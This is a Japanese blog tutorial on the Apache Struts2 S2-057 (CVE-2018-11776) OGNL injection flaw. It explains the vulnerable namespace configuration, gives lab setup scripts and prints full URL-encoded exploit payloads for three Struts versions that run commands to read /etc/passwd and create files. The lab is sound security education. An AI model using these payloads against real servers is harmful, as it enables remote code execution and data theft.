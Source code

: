 ```yaml
---
layout: post
title:  "S2-057 CVE-2018-11776"
date:   2018-08-24
permalink: /security/:title
categories: Security
tags: Struts2 S2-057 CVE-2018-11776
excerpt: Struts2のRCE脆弱性の解説とハンズオン
mathjax: false
---
```


* content
{:toc}

このポストは
S2-057を発見したLGTMのリサーチャーであるMan Yue Moと、
githubにPoCを公開したリサーチャーのjas502n、Ivan1ee、Fnzer0の情報にもとづいて書かれています。
詳細については文末を確認してください。

## 脆弱性の概要

### 脆弱な設定

struts.xmlに以下の脆弱な設定が記述されている場合、受け取ったHTTPリクエストに含まれるEL式やOGNL式を無害化できず、任意のコマンドを実行される可能性があります。
struts.xmlからincludeされている各xmlも同様に脆弱性の原因となります。

- actionタグもしくはurlタグを含むpackageタグにnamespaceの指定が無い

**脆弱性が有るxml**
```xml
<struts>
  <package name="actionchaining" extends="struts-default">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name="actionName">register2</param>
      </result>
  </package>
</struts>
```

**脆弱性が無いxml**
```xml
<struts>
  <package name="actionchaining" extends="struts-default" namespace="/hoge">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name="actionName">register2</param>
      </result>
  </package>
</struts>
```

### 想定される攻撃ベクタ

- リクエストされるURLに`%{`もしくは`${`が含まれる

  **例1**
  http://localhost/app/${1+1}/index

  **例2**
  http://localhost/app/%{(1+1)}/index

  *URLエンコードされている可能性があります*

  http://localhost/app/%24%7B1%2B1%7D/index

  http://localhost/app/%25%7B1%2B1%7D/index

## 仕組み

### Struts2の基本

HTTPリクエストに応じて適切なActionクラスを呼び出すためにActionProxyクラスが使われます。
ActionProxyクラスの基本動作はstruts.xmlに記述されたactionタグによって定義され、受け取ったHTTPリクエストに応じて具体的な動作が決定されます。

以下の例ではhogeに対してSampleClassがマッピングされています。
この状態でhttp://localhost/app1/hoge.actionにアクセスするとSampleClassが呼び出された後にhttp://localhost/app1/index.jspが表示されます。
ActionProxyクラスがURL文字列を解析してSampleClassクラスを呼び出す事によりこの動作が実現されます。

```xml
<struts>
  <package name="test" extends="struts-default" namespace="/app1">
    <action name="hoge" class="SampleClass">
      <result type="dispatcher">
        <param name="actionName">/index.jsp</param>
      </result>
    </action>
  </package>
</struts>
```
解析された文字列からクラスを呼び出す際にOGNLが使われます。
OGNLは文字列をプログラムコードとして解釈実行できるため脆弱性の温床になる可能性があります。
安全に使うためにはプログラマが意図した文字列だけを受け取るような仕組みが必要です。

### 脆弱性

今回発見された脆弱性はnamespaceを判断する機能が悪用されたものです。
packageタグにnamespace属性が指定されていない場合はURLから読み取った/app1という文字列からnamespaceが判定されます。
この時OGNLが利用されるために以下のようなURLを使ったコードが実行可能になります。

`http://localhost/app1/${1+1}/hoge.action`

- サーバは localhost
- action は hoge.action
- namespace は /app1/${1+1} ←これがOGNLに渡される

## 環境構築

jas502n/St2-057はStruts2.2.3.1でないとRCEが成立しません。
今回問題となっているStruts2.3およびStruts2.5ではシンプルな数値計算しか行えずjavaのメソッド呼び出しには失敗するためです。
そういった意味ではjas502n/St2-057には改善の余地があります。
しかし~~2018.08.24時点で唯一のPoCであり~~数値計算が出来る以上はRCEの成立まであと一歩の可能性があるという事で動作確認をしていきます。

<span style="color:red">
*jas502n/St2-057以外にStruts2.3.34で再現可能なPOCが公開されています*
</span>

やるべきことは全てSt2-057/README.mdに書いてあります。
今回はそれらの手順を読み解く必要もなく暗黙の了解を知らなくても良いスクリプトを作りました。
VirtualBoxにCentOS7_minimalを新規インストールしてスクリプトを使ってください。
環境がプロキシ配下にある場合はプロキシ設定もしてください。

### プロキシ設定
必要に応じて設定してください。

```bash
export PROXY='proxy.sample.local:8080'
cat > /etc/profile.d/proxy.sh << END
PROXY=$PROXY
export http_proxy=$PROXY
export HTTP_PROXY=$PROXY
export https_proxy=$PROXY
export HTTPS_proxy=$PROXY
END
source /etc/profile

mkdir -p /etc/systemd/system/docker.service.d
cat > /etc/systemd/system/docker.service.d/proxy.conf << END
[Service]
Environment="HTTP_PROXY=http://$PROXY/" "HTTPS_PROXY=https://$PROXY/"
END
systemctl daemon-reload

```

### Struts2

Struts2.2.3.1とStruts2.3.34とStruts2.5.16を用意します。

```bash
curl -LO https://gist.githubusercontent.com/ox0xo/17673b22fc3fa3260be4eab8687be5e5/raw/4c0181485b9a8f66f81cdb8bfcfe91b51bf3f4d9/s2-057.sh
chmod +x s2-057.sh
./s2-057.sh
```

### 一部ローカル環境向け

```bash
# 以下のファイル群を展開した任意のディレクトに入ってから作業を開始する
# docker-compose-Linux-x86_64
# docker-compose.yml
# st2231.war
# st2334.war
# st2516.war
# struts-actionchaining.xml
# vulhub.tar.gz

curl -LO https://gist.githubusercontent.com/ox0xo/2738af32e40b17e98863d230f73c34df/raw/cc06cbc7001aa8d0e301e3f03636dba60a58a3ca/s2-057-local.sh
chmod +x s2-057-local.sh
./s2-057-local.sh
```

## PoC

### Struts2.2.3.1
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2231/%24%7B%28%23cmd%3D%27cat /etc/passwd%27%2C%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23cmd%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2231/%24%7B%28%23cmd%3D%27touch /tmp/this_server_was_hacked%27%2C%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23cmd%29%29%7D/actionChain1.action
```
### Struts2.3.34
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2334/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat /etc/passwd%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2334/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22touch /tmp/this_server_was_hacked%22%29%29%7D/actionChain1
```
### struts2.5.16
**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2516/%24%7B%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.setExcludedClasses%28%27java.lang.Shutdown%27%29%29.%28%23ou.setExcludedPackageNames%28%27sun.reflect.%27%29%29.%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27cat /etc/passwd%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2516/%24%7B%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.setExcludedClasses%28%27java.lang.Shutdown%27%29%29.%28%23ou.setExcludedPackageNames%28%27sun.reflect.%27%29%29.%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%27touch /tmp/this_server_was_hacked%27%29%29%7D/actionChain1
```
## 参考

[Man Yue Mo: CVE-2018-11776: How to find 5 RCEs in Apache Struts with Semmle QL](https://lgtm.com/blog/apache_struts_CVE-2018-11776)

[jas502n: St2-057 在线靶机环境，Enjoy！](https://github.com/jas502n/St2-057/blob/master/README.md)

[Ivan1ee: Struts2-057/CVE-2018-11776两个版本RCE漏洞分析（含EXP）](https://github.com/Ivan1ee/struts2-057-exp/)

[Fnzer0: S2-057本地测试与复现](https://github.com/Fnzer0/S2-057-poc)
